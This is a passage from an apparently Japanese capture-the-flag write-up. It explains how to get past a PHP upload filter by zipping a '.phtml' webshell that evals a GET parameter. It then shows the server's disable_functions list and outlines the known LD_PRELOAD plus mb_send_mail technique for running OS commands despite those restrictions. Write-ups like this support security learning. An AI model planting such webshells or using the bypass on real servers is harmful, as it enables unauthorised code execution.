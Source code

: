 ```php
            $parts = pathinfo($file);
            $ext = strtolower($parts['extension']);
            if (strpos($ext, 'php') === false &&
                strpos($ext, 'pl') === false &&
                strpos($ext, 'py') === false &&
                strpos($ext, 'cgi') === false &&
                strpos($ext, 'asp') === false &&
                strpos($ext, 'js') === false &&
                strpos($ext, 'rb') === false &&
		strpos($ext, 'htaccess') === false &&
                strpos($ext, 'jar') === false) {
                @chmod($filepath, 0666);
            } else {
                @chmod($filepath, 0666);    // just in case the unlink fails for some reason
                unlink($filepath);
            }
        } elseif ($file != '.' && $file != '..' && is_dir($filepath)) {
            CheckDir($filepath);
        }
    }
}
︙
```

ZIP に含まれるファイル名に `php` `pl` `py` `cgi` `asp` `js` `rb` `htaccess` `jar` が含まれていなければ、ドキュメントルート下にあるディレクトリに展開してくれるようです。

一部の環境ではデフォルトでも `pht` や `phtml` といった拡張子のファイルを PHP コードとして実行してくれるので、この問題でもそうであることを期待して `<?php eval($_GET[0]);` という内容の `a.phtml` を ZIP で固めてアップロードします。`/uploads/(省略)/a.phtml?0=var_dump(1);` にアクセスすると `int(1)` が出力されました。

`phpinfo();` を実行してみると、`disable_functions` が次のように設定されていることが確認できました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,proc_open,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,mail,fread,fopen,file_get_contents,readfile,chdir
```

PHP+なんとかシリーズの制限に更に `proc_open` が加えられています。これを回避して OS コマンドを実行できないでしょうか。

`disable_functions` を回避するテクニックとして、`LD_PRELOAD` に `__attribute__ ((__constructor__)) void f(void) { … };` のような関数を仕込んだ共有ライブラリを設定した上で、`mail` (最終的に [`popen` で `sendmail` を実行する `php_mail`](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/mail.c#L574) が[呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/mail.c#L369)) や `error_log` ([第二引数が 1 であれば `php_mail` が呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/basic_functions.c#L4160-L4164))、`mbstring` が有効化されていれば `mb_send_mail` ([内部的に `php_mail` が呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/mbstring/mbstring.c#L4480)) を呼ぶことで、`sendmail` の実行時に先程の共有ライブラリの `f` が実行されるというものが知られています。

先程の `disable_functions` を見てみると、`mail` や `error_log` は無効化されていますが、`mb_send_mail` は使えることがわかります。試してみましょう。
